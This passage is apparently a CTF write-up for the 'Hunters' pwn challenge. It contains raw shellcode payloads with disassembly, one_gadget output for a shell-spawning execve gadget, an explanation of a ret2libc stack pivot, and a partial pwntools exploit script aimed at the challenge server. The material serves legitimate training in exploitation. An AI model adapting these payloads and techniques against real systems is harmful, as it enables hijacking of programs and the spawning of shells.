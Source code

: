```
payload = "\x4C\x89\xF7\x41\xFF\xD7\x41\x55\xC3"
```

```
0:  4c 89 f7                mov    rdi,r14
3:  41 ff d7                call   r15
6:  41 55                   push   r13
8:  c3                      ret
```
Call puts(`r14=printf@got.plt_addr`)

After that all we need to do is find libc version then ret2libc with one_gadget

```console
┌──(kali㉿kali)-[~/Desktop/pwn/foobar_ctf/hunter]
└─$ one_gadget libc6_2.23-0ubuntu11.2_amd64.so
0x45226 execve("/bin/sh", rsp+0x30, environ)
constraints:
  rax == NULL
```

```
payload1 = "\x58"*5 + "\x48\x31\xC0\xC3"
payload2 = p64(one_gadget)
```

```
0:  58                      pop    rax
1:  58                      pop    rax
2:  58                      pop    rax
3:  58                      pop    rax
4:  58                      pop    rax
5:  48 31 c0                xor    rax,rax
8:  c3                      ret
```

Because our `payload1` and `payload2` are quite close to each other on the stack, we can pop our `rsp` into our `payload2`, which holds the address of our `one_gadget`, then we return ( And set rax = 0 to satisfy the one_gadget constraints)

Here's my script:
```python
from pwn import *

LOCAL = False
REMOTE = True
context.arch = 'amd64'
context.endian = 'little'

if REMOTE:
	p = remote('chall.nitdgplug.org',30090)
if LOCAL:
	#p = process('./Hunters')
	p = gdb.debug('./Hunters')
	log.info("PID: " + str(p.pid))
	
# ---SET R13 = MAIN_ADDR---
payload = "\x5B\x48\x31\xC0\xB0\xEE\x48\x29\xC3\x53\x49\x89\xDD\xC3"
log.info("Sending payload:\n{}".format(hexdump(payload)))
log.info("PAYLOAD:\n{}".format(disasm(payload)))
sec_payload = "AAAA"
p.sendlineafter("What is your name hunter? : ",payload)
p.sendlineafter("What is your most precious possession? : ",sec_payload)

# ---SET R14 = PUTS_GOT.PLT_ADDR---
payload = "\x4D\x89\xEE\x48\x31\xC0\x66\xB8\x1F\x2E\x49\x01\xC6\x41\x55\xC3"
log.info("Sending payload:\n{}".format(hexdump(payload)))
log.info("PAYLOAD:\n{}".format(disasm(payload)))
```